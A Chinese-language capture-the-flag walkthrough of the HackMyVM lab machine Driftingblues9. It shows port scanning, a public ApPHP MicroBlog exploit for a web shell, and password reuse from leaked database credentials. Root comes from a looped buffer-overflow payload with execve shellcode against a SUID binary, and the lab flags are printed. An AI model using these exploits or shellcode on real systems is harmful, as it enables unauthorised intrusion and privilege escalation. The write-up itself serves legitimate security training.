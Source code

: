 # Driftingblues9

2024-12-28 https://hackmyvm.eu/machines/machine.php?vm=Driftingblues9

## IP

192.168.5.40

## Scan

```
PORT      STATE SERVICE
80/tcp    open  http
111/tcp   open  rpcbind
57687/tcp open  unknown
```

访问 80 web，源码中发现：This script was generated by ApPHP MicroBlog v.1.0.1 (http://www.apphp.com/php-microblog/) 有个登陆页面，尝试简单密码登陆，没有成功。

searchsploit ApPHP MicroBlog v.1.0.1 发现有一些漏洞，进行利用：

```
python2 33070.py http://192.168.5.40/index.php
```

执行后得到了执行 shell 的环境，开始寻找 flag。发现有一个用户 clapton，但是没有权限进入。

发现 web 的数据库配置信息：

```
define('DATABASE_HOST', 'localhost');	        // Database host
define('DATABASE_NAME', 'microblog');	        // Name of the database to be used
define('DATABASE_USERNAME', 'clapton');	        // User name for access to database
define('DATABASE_PASSWORD', 'yaraklitepe');	    // Password for access to database
define('DB_ENCRYPT_KEY', 'p52plaiqb8');		    // Database encryption key
define('DB_PREFIX', 'mb101_');		            // Unique prefix of all table names in the database
```

发现数据库的用户名也是 clapton，可能存在密码复用的情况，尝试 su 切换到 clapton 用户，输入密码 yaraklitepe，切换成功。

在 home 目录拿到 user flag：

```
clapton@debian:~$ cat user.txt
F569AA95FAFF65E7A290AB9ED031E04F
```

寻找提权至 root 的路径, 发现 note.txt 提示：

```
clapton@debian:~$ cat note.txt
buffer overflow is the way. ( ͡° ͜ʖ ͡°)

if you're new on 32bit bof then check these:

https://www.tenouk.com/Bufferoverflowc/Bufferoverflow6.html
https://samsclass.info/127/proj/lbuf1.htm
```

同时发现 root 的 suid 程序 input，根据提示应该存在缓冲区溢出漏洞，经过尝试，形成利用的 payload：

```
for i in {1..10000}; do (./input $(python -c 'print("A" * 171 + "\xe0\x13\x8b\xbf" + "\x90"* 1000 + "\x31\xc9\xf7\xe1\x51\xbf\xd0\xd0\x8c\x97\xbe\xd0\x9d\x96\x91\xf7\xd7\xf7\xd6\x57\x56\x89\xe3\xb0\x0b\xcd\x80")')); done
```

最终得到 root 权限：

```
# cat root.txt

this is the final of driftingblues series. i hope you've learned something from them.

you can always contact me at vault13_escape_service[at]outlook.com for your questions. (mail language: english/turkish)

your root flag:

04D4C1BEC659F1AA15B7AE731CEEDD65

good luck. ( ͡° ͜ʖ ͡°)
```
